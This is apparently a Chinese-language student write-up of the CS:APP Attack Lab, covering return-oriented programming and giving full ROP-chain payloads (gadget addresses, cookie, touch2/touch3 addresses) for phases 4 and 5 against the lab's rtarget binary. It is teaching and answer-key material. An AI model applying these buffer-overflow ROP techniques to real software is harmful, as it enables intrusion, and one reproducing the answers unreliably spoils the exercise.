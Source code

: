 其中`48 89 c7`是`movq %rax, %rdi`的机器码，后面接着`c3`，即`retq`。缓冲区溢出，改写`getbuf`的返回地址为`48 89 c7`的地址(0x400f18)，就能执行`movq %rax, %rdi`这条指令，接着`retq`，使得攻击者可以继续利用上述过程执行攻击指令。以上攻击手段被称为return-oriented programming，`48 89 c7 c3`就是一个"gadget"。实验给出了所有可利用的gadget的源码，在farm.c，[attacklab.pdf](http://csapp.cs.cmu.edu/3e/attacklab.pdf)列出了rtarget中所有gadget及对应的指令。

## phase_4

* phase_4 要求调用`touch2`，需要传参，可以先把参数写入栈，再利用gadget `popq %rdi`
* 搜索发现gadget farm没有 `popq %rdi`，只有 `popq %rax`和`movq %rax, %rdi`
* 找到`popq %rax`和`movq %rax, %rdi`地址分别为0x004019cc，0x004019a2

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区

// <-- getbuf 开始执行 ret 时，%rsp 的位置
cc 19 40 00 00 00 00 00 // gadget "popq %rax" 地址

// <-- popq %rax 开始执行时，%rsp 的位置
fa 97 b9 59 00 00 00 00 // cookie

// <-- gadget "popq %rax" 开始执行 ret 时，%rsp 的位置
a2 19 40 00 00 00 00 00 // gadget "movq %rax, %rdi" 地址

// <-- gadget "movq %rax, %rdi"  开始执行 ret 时，%rsp 的位置
ec 17 40 00 00 00 00 00 // touch2 地址

// 栈顶(高地址)
```

## phase_5

* `touch3`的参数是字符串，这要求我们在栈上存储字符串，且要取得字符串的地址
* 由于栈地址随机化，只能相对寻址，需要类似`leaq $offset(%rsp), %rdi`的指令
* 搜索gadget farm发现只有`lea (%rdi, %rsi, 1), %rax`
* 所以`$offset`也要放到栈上，再`popq %rdi`或`popq %rsi`
* 注意取栈地址时，`%rsp`不能作为`movl`的操作数，`movl`会对高位4字节补零
* 字符串地址必须比`touch3`返回地址高，否则会被覆盖
* `$offset`为字符串地址相对于`getbuf`开始执行时的栈地址的偏移值，为0x48
* farm上的指令有限，需要做一些转换，综上，答案如下：

```c
// 栈顶(低地址)
// 40 字节，写满缓冲区
// <-- getbuf 开始执行 ret 时，%rsp 的位置
movq %rsp, %rax             // 0x00401a06
movq %rax, %rdi             // 0x004019a2
popq %rax                   // 0x004019ab
// <-- "popq %rax" 开始执行时，%rsp 的位置
// $offset
movl %eax, %edx             // 0x004019dd
movl %edx, %ecx             // 0x00401a34
movl %ecx, %esi             // 0x00401a13
leaq (%rdi, %rsi, 1), %rax  // 0x004019d6
movq %rax, %rdi             // 0x004019a2
// touch3 地址 0x004018fa
// cookie 字符串
```
